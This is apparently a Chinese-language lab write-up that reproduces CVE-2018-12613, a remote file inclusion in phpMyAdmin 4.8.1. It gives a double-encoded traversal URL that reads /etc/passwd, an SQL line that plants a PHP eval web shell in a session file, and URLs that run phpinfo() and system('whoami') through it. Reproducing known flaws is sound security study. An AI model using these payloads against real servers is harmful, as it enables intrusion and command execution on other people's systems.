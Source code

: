 ```yaml
---
title: phpMyAdmin 4.8.1 远程文件包含(CVE-2018-12613)
date: 2020-07-01 21:17:26
categories: 漏洞复现
tags: phpMyAdmin
---
```


#### 背景

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

<!--more-->

#### 复现过程

##### 漏洞验证

1.使用如下POC，若成功读取/etc/passwd文件内容，则存在漏洞

```
http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![](http://qn.laohuan.xin/2020-06-30_20-10-11.png)

##### 利用session写shell

1.需先登录phpmyadmin，执行sql语句,代码为GET传参,图为POST传参

```php
SELECT "<?php eval($_GET['cmd']); ?>"
```

2.F12获取cookie

![](http://qn.laohuan.xin/2020-06-30_20-43-05.png)

将cookie的值和**sess_**拼接，便得到了存储在服务器端的session文件,这里注意，图中的cookie值因测试多次和实际值不一样，因为人懒，懒得再截图。

 `sess_575f961b1e574936b7a6e1d237f82ade`

![](http://qn.laohuan.xin/2020-07-01_16-31-03.png)

3.使用POC命令执行

当然实际环境中就根据经验或其他手段来猜测路径了

```url
http://URL:端口/index.php?cmd=phpinfo();&target=db_sql.php%253f/../../../../tmp/sess_575f961b1e574936b7a6e1d237f82ade
/var/www/html
```

![](http://qn.laohuan.xin/2020-07-01_20-48-30.png)

```
http://URL:端口/index.php?cmd=system(%27whoami%27);&target=db_sql.php%253f/../../../../tmp/sess_575f961b1e574936b7a6e1d237f82ade
```

![](http://qn.laohuan.xin/2020-07-01_21-00-22.png)

![](http://qn.laohuan.xin/2020-07-01_21-01-12.png)

#### 参考链接

<http://www.pianshen.com/article/6744149320/>

<http://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md/>

